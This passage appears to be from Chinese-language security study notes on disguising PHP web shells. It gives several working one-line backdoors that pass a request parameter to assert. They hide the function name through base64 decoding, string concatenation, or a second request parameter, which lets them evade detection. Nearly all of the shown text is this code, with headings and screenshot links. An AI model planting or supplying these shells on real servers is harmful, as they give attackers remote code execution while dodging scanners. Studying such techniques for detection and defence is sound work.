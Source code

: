 ##### b.  base64_decode()

* 编码替换

```php
<?php
$a = base64_decode("YXNzZXJ0");
$a($_REQUEST['cmd']);
?>
```

![base64_decode](../../images/8-17-afternoon/base64_decode.png)

##### c. .操作符

```php
<?php
$a = "as"."se";
$b = "r"."t";
$c = $a.$b;
$c($_REQUEST['cmd']);
?>
```

![点字符连接](../../images/8-17-afternoon/点字符连接.png)

##### d. 更换数据源

###### ①隐藏assert

```php
<?php
//？a=assert&cmd=phpinfo();
$_REQUEST[a]($_REQUEST['cmd']);
?>
```

![更换数据源1](../../images/8-17-afternoon/更换数据源1.png)
